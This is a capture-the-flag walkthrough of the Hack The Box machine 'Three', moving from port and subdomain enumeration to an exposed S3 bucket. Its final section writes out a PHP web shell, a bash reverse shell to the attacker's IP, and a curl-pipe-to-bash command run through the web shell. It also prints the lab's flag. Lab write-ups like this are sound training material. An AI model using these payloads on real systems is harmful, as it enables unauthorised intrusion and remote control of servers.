










# Three

Three is a very easy linux machine on Hack The Box Starting Point Tier 1 that focuses on compromising and php webserver hosted by an AWS S3 bucket by creating a reverse shell.

## Task 1

**How many TCP ports are open?**

> 2

We use the `nmap` command with the `-sT` flag to scan TCP ports.


## Task 2

**What is the domain of the email address provided in the "Contact" section of the website?**

> thetoppers.htb

We navigate to the contact page on the website:



## Task 3

**In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?**

> /etc/hosts



## Task 4

**Which sub-domain is discovered during further enumeration?**

> s3.thetoppers.htb

First we use `wget` to download a [dns subdomain wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/DNS/subdomains-top1million-5000.txt) as `wordlist.txt`. Using gobuster, we enumerate vhosts using the our downloaded wordlist. We use the `--apend-domain` flag to get only subdomains of `thetoppers.htb`.



## Task 5

**Which service is running on the discovered sub-domain?**

> Amazon s3

## Task 6

**Which command line utility can be used to interact with the service running on the discovered sub-domain?**

> awscli

## Task 7

**Which command is used to set up the AWS CLI installation?**

> aws configure

## Task 8

**What is the command used by the above utility to list all of the S3 buckets?**

> aws s3 ls

After using the `aws configure` command, we use the `aws s3 ls` command with the endpoint set to `http://s3.thetoppers.htb` the list all the s3 buckets:



## Task 9

**This server is configured to run files written in what web scripting language?**

> php

We use the `aws s3 ls` command again to view all the files in the s3 bucket. It seems as though this bucket is hosting a website written in php.



## Flag

> a980d99281a28d638ac68b9bf9453c2b

First make a `shell.php` file (on our computer) which allows us to make a syscall executing a command `cmd`:

```php
<?php system($_GET["cmd"]); ?>
```

We add our `shell.php` to the s3 bucket which hosts our php shell as a page on the `http://thetoppers.htb` website. Now we send commands to our php shell (which are executed on the webserver) by visiting `http://thetoppers.htb/shell.php?cmd={shell cmd}`. The resulting page content is the output from the commands we send:


Next we make a `shell.sh` file. We setup a socket on our computer on port `12345`. We use the `0>&1` operator to allow us to read inputted commands from our socket. We use the `bash -i` command to actually execute these commands on our computer and use the `>&` operator to redirect our output from our command to our socket:

```bash
#!/bin/bash
bash -i >& /dev/tcp/{Our IP}/12345 0>&1
```

We the use the `nc -lp` command to set up a listener on port `12345` of our computer:



Next we setup an http server on port `8080` of our computer. This http server hosts our `shell.sh` file allowing other computers to access the file via the server:



Lastly we visit `http://thetoppers.htb/shell.php?cmd=curl%20{Our IP}:8080/shell.sh|bash`. This uses our php shell `shell.php` on the webserver to visit the HTTP server hosted on our computer to download our bash shell `shell.sh` We use `|bash` to actually execute commands given to our bash shell via netcat (on our computer) on the webserver. Since we also up a listener on netcat, we can see the output of the commands executed on the webserver.

Using our reverse shell, we search for the `flag.txt` file and then display its contents:

